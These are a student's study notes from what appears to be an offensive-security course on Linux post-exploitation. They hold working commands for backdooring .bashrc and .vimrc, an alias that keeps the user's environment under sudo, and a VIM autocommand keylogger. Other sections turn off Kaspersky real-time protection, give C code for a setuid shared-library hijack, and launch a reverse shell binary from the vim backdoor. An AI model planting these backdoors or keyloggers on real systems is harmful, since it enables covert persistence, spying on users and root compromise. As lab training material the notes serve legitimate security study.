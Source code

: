 # Linux post exploitation

372

linux is used on server

# user configuration files

dotfiles

.bash_profile and .bashrc - to put environement variables and load scripts whene a user initially logs onto a system

```
 echo "touch /tmp/bashtest.txt" >> ~/.bashrc
```

# VIM Config Simple Backdoor

vimrc in .vimrc file comtains the configuration file for vim

`echo ":echo 'this is a test'" >> .vimrc`

`echo "!touch /tmp/test.txt" >> .vimrc`

we can source a shell script using the bash source command.

we can import other vim configuration files into users cuirrent duir with source command we add silent so that the script is not shown.

`echo ':silent !source ~/.vimrunscript' >> .vimrc`
we create a shell script file /home/offsec/.vimrunscript `echo "hacked" >  /tmp/hacksrcout.txt`

we can add alias into the .bashrc file

`echo 'alias sudo="sudo -E"' >> ~/.bashrc`

`source ~/.bashrc` for making effect the changes

we can look at file permission through 

`sudo -l`


### 10.1.1.1 Exercises
1. Backdoor VIM as described in the module by modifying the user’s .vimrc file directly and 
running a command while silencing the output.

2. Backdoor VIM by adding a script to the VIM plugins folder.

3. Backdoor VIM by sourcing a secondary shell script in the user’s .vimrc file while silencing the 
output.
4. Create an alias for the user for sudo to preserve the user’s environment and activate it by 
sourcing the user’s .bashrc file. Then execute a command as root by running VIM as sudo.
5. Using the linuxvictim user, run VIM via sudo and get a root shell using the :shell command.

all exercises done

### 10.1.1.2 Extra Mile
Get a reverse shell using the above VIM backdoor as root.

```sh
└─$ cat vimrunscript 
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt
~/reverse.elf 
```

```sh
┌──(kali㉿kali)-[~]
└─$ cat .vimrc
:silent !source ~/vimrunscript  
```

# vim config keylogger

we leverage autocommands 
:autocmd

`:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt`

we can also add it in 

` /home/offsec/.vim/plugin/settings.vim`

we can put an if condition

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

### 10.1.2.1 Exercises
1. Use an autocommand call to write a simple VIM keylogger and silence it as in this section, 
sourcing it from a separate file than the user’s .vimrc file.

2. Modify the keylogger to only log modified file contents if the user is root

# bypassing AV

linux kaspersky

# Kaspersky Endpoint security

We can turn Kaspersky off using the kesl-control utility. We need to use the --stop-t flag, 
which stops a specified task number

`sudo kesl-control --stop-t 1`

We can turn Kaspersky off using the kesl-control utility. We need to use the --stop-t flag, 
which stops a specified task number. The documentation indicates that real-time protection runs 
as task number 1

`sudo gpg -d eicar.txt.gpg > eicar.txt`

`sudo kesl-control --scan-file ./eicar.txt`

`sudo kesl-control -E --query | grep DetectName`

394

# Shared libraries

a elf binary looks at poath from these locations

1. Directories listed in the application’s RPATH595 value.
2. Directories specified in the LD_LIBRARY_PATH environment variable.
3. Directories listed in the application’s RUNPATH596 value.
4. Directories specified in /etc/ld.so.conf.
5. System library directories: /lib, /lib64, /usr/lib, /usr/lib64, /usr/local/lib, /usr/local/lib64, and 
potentially others.

# shared library hijacking using LD_Library_path

After checking its internal RPATH values for hard coded paths, it then checks for an 
environment variable called LD_LIBRARY_PATH. Setting this variable allows a user to override the 
default behavior of a program and insert their own versions of libraries

we can inser a line in .bashrc or .bash_profile to define a LD_LIBRARY_PATH

 This setting is configured in the 
/etc/sudoers file by using the env_reset keyword as a default. Some systems are configured to 
allow a user’s environment to be passed on to sudo. These will have env_keep set instead.

We could bypass the env_reset setting with our previously-mentioned .bashrc alias for the sudo 
command. We mentioned this approach earlier when we set the sudo command to sudo -E in 
Listing 443. As a normal user, it’s not typically possible to read /etc/sudoers to know if env_reset
is set, so it may be useful to create this alias setting regardless.

Example of a malicious C program

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid
static void runmahpayload() __attribute__((constructor));

void runmahpayload() {
 setuid(0);
 setgid(0);
 printf("DLL HIJACKING IN PROGRESS \n");
 system("touch /tmp/haxso.txt");
}
```

`gcc -Wall -fPIC -c -o hax.o hax.c`

This produces a libhax.so shared library file.
One important thing to note is that shared libraries in Linux use the soname602 naming 
convention. This is typically something like lib.so, which may also include a version number 
appended to the end with a period or full-stop character. For example, we might see lib.so.1. 
Naming our libraries following this convention will help us with the linking process

ldd will give the loaded library when a program is run.








